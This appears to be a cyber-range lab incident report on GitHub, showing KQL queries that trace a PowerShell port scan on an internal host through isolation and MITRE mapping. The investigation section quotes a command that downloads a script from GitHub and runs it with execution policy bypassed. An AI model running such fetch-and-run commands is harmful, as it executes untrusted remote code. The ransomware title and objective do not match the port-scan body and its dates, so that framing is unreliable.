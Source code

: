 

# Zero-Day Ransomware (PwnCrypt) Outbreak Project 
## 🛡️ Incident Report: PwnCrypt Ransomware Detection and Containment

# Objective:
Successfully detected and contained a zero-day PwnCrypt ransomware infection on endpoint fe-vmlab by immediately isolating the affected system, thereby preventing further file encryption and lateral movement within the corporate network.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
---



## 1. Summary
Incident Title: PwnCrypt Ransomware Detection and Containment <br />
Date Identified: June 21, 2025 <br />
Reported By: Security Operations Team <br />
Affected Asset: fe-vmlab (Windows Endpoint) <br />
Investigator: Fe Esguerra <br />
Severity: High <br />


## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
### Data Sources Queried:
#### DeviceNetworkEvents
  ![DataCollection1](https://github.com/user-attachments/assets/74d73fd3-8472-4d27-a1cc-59aafc29736d)

#### DeviceProcessEvents
  ![DataCollection2](https://github.com/user-attachments/assets/b8cacdcc-dac6-4469-856d-d19205730b9e)

#### DeviceFileEvents 
![DataCollection3](https://github.com/user-attachments/assets/f53e8661-60e6-45a2-97f1-409192e3a672)



## 4. Data Analysis

### Focus Areas:

- Failed network connections (potential scanning) 
- Suspicious process executions
- File downloads or script execution activity
  
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

```kql
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by ConnectionCount

```

![DataCollection4](https://github.com/user-attachments/assets/d067d36d-1ea9-4c6f-8933-97b668d4e367)


Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

```kql
let IPInQuestion = "10.0.0.5";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| order by Timestamp desc
```
![DataCollection5](https://github.com/user-attachments/assets/55159acf-f97d-47e9-b5f4-d60283a8ec1c)



Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation

Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

```kql
let VMName = "windows-target-1";
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "portscan"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName

```
![DeviceProcessEvents](https://github.com/user-attachments/assets/42402a97-5812-4ae5-9230-e88689618cbc)

Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1

```

I logged into the suspect computer and observed the powershell script that was used to conduct the port scan:

![portscan](https://github.com/user-attachments/assets/ba71f03c-5e53-4fab-bf31-743708f8d6d2)


## 6. Response
### Actions Taken:

- Logged into the device to verify script existence. 
- Confirmed the file portscan.ps1 existed under C:\ProgramData. 
- Isolated the host from the network. 
- Performed a full malware scan (no malware detected). 
- Escalated to IT for reimaging of the device to ensure integrity. 

## 7. MITRE ATT&CK Mapping

- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)

## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild




